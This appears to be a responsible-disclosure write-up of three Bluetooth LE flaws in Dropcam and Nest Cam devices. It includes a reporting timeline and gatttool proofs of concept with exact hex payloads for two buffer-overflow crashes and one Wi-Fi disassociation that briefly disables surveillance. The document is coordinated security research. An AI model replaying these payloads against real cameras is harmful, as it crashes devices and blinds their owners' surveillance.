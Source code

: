 # Google-Nest-Cam-Bug-Disclosures

Affected: Dropcam, Dropcam Pro, Nest Cam Indoor/Outdoor models<br />
Latest Build Tested: 205-600052<br />
Fixed Build: TBD<br />

Disclosure Timeline:<br />
October 26, 2016: Reported security bug per Google's Vulnerability Reward Program guidelines<br />
October 27, 2016: Google Security Team acknowledged that the report was received and it was being investigated<br />
November 1, 2016: Google Security Team validated the reported vulnerabilities and filed a bug<br />
November 15, 2016: Google's VRP panel issued a $100 reward under "Non-integrated acquisitions"<br />
March 17, 2017: Public disclosure<br />


<h3>Bluetooth (BLE) based Buffer Overflow via SSID parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the SSID parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]>`<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set an SSID with a length of 1 byte and sends 16.<br />
SequenceNum=3a + Type=0312 + Length=01 + Value=AA*16<br />

4. Result<br />
Crash and reboot back to operational state

<h3>Bluetooth (BLE) based Buffer Overflow via Encrypted Password parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the encrypted password parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b506574536d6172742d356e1a01AAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set the encrypted wifi password with a length of 1 byte and sends 3.<br />
SequenceNum=3a + Type=0312 + Length=0b + ssidVal=506574536d6172742d356e + type=1a + length=01 + encPass=AA*3<br />

4. Result<br />
Crash and reboot back to operational state


<h3>Bluetooth (BLE) based Wifi Disassociation</h3>

1. Summary<br />
It's possible to temporarily disconnect the camera from Wifi by supplying it a new SSID to connect to. Local storage of video footage is not supported by these cameras so surveillance is temporarily disabled. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3e`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />

3. Details<br />
The payload attempts to change Nest Cam's associated SSID causing temporary disassociation from the current Wifi SSID. Without knowing the encryption key, a valid password can not be set.
seqNum + 0312(type) 0b(len) + SSID + 1a(type) 20(len) + encPass
seqNum + encPass(cont)
seqNum + encPass(cont) + 2002280032(constant) + 10(len) + authTag
seqNum + authTag(cont) + 3a(UnknownType) 04(len) + DEADBEEF
seqNum(execute)

4. Result<br />
Camera dissociates from current wifi network to attempt association with newly set SSID. The camera goes offline for approximately 60-90 seconds before returning to the original Wifi network and resuming normal operation. 
